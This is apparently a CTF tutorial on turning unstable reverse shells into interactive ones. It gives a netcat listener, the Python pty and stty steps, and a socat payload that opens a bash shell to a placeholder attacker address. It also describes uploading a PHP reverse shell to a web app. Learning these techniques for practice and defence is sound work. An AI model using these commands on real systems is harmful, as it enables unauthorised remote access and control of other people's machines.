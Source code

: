 # Reverse Shell Upgrade
Welcome in this short yet very useful guide for CTFs challenges about improving our reverse shells.

Very often our way to gain a foot hold inside the machine involves creating some reverse-shell scripts, but there is a problem, the shell is very unstable and not interactive.

Since we want to have a good environment to do our investigations in the target machine we have to take some steps forward and make our shell a fully interactive one.

Here i will show some ways to achieve it, but first let's see how we commonly gain a shell in the first place:

<br/>
<br/>

## Gaining a Shell
For this demo i will focus specifically on web-apps but most things can be applied in other contexts too, re-arrange at your needs.

The most commonly used method to gain reverse-shell on the target system is usually by creating a short script depending on the services and infrastructure type of the target (example: the websiteis running a PHP backed, we make a PHP reverse shell...).

This is the first step, now we have to find a way to upload the reverse shell and prepare our listener to wait for the connection.

We will use *netcat* as it is a very common tool and installed on a huge portion of the systems:

```bash
nc -lvnp 1234
```
(you can choose another port if you want, just be sure to match it with the one you have in your payload and avoid ports used by other services)

Finally we can activate the connection by visiting the location where we uploaded our reverse-shell payload, either by navigating to it with the browser or using *curl*.

Now if everything was done right we should have a shell on the target system (usually a limited shell as an unprivileged user).

<br/>
<br/>

## Upgrading Methods
<br/>

### Python Pseudo Terminal
This is one of the quickest way, once we have our initial shell, we can firstly check if on the target system python is installed, if yes we can use this command to enable the execution of more commands:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

<br/>

### TTY Options
Now to the best option, this will make a fully interactive TTY:

We will start with the python psedudo terminal script on the shell
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```

Now we can press `CTRL+Z` to put the reverse-shell session in background.
In your machine terminal use:
```bash
stty raw -echo
```

Now we can bring back in foreground the rev-shell session using the commands `fg`.

You should now see the original reverse shell, might be with a broken graphic but no worries, enter the command:
```bash
reset
```

Finally we can set some ENV variables:
```bash
export SHELL=bash
export TERM=xterm-256color
stty rows VALUE columns VALUE  
```
(change the rows and columns VALUE depending on your current terminal measures)

With all this done right we should now have an interactive shell, where we can run commands like `clear` and even `CTRL+C` without accidentally terminating the session.

NOTE: I have encountered some problems using the zsh shell as my default, so here are some ideas on how to avoid them:
- The easiest way is to switch to a bash shell before making the listener and receiving the reverse-shell, otherwise you can:
- Use `rlwrap nc -lvnp` when setting up your listener;
- Avoid putting a space in your python pty command after the import;
- Type `stty size;stty raw -echo;fg` all on one line.

<br/>

### Socat
Another way is to use *Socat*, a kind of newer and more powerful version of *netcat*, it s quite simple to do, the only catch is that most of the times it is not installed on the target systems, meaning we won't be able to use it.

On your machine set up the listener:
```bash
socat file:`tty`,raw,echo=0 tcp-listen:1234
```

This is the payload that has to be executed on the target(sobstitute with your IP):
```bash
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:ATTACKER-IP:1234
```

<br/>

This are some of the most commonly used methods, i encourage everyone to try them and why mot, also finding new ones specific for your challenge environment need. <br>
See you in the next guide/writeup, Happy hacking!
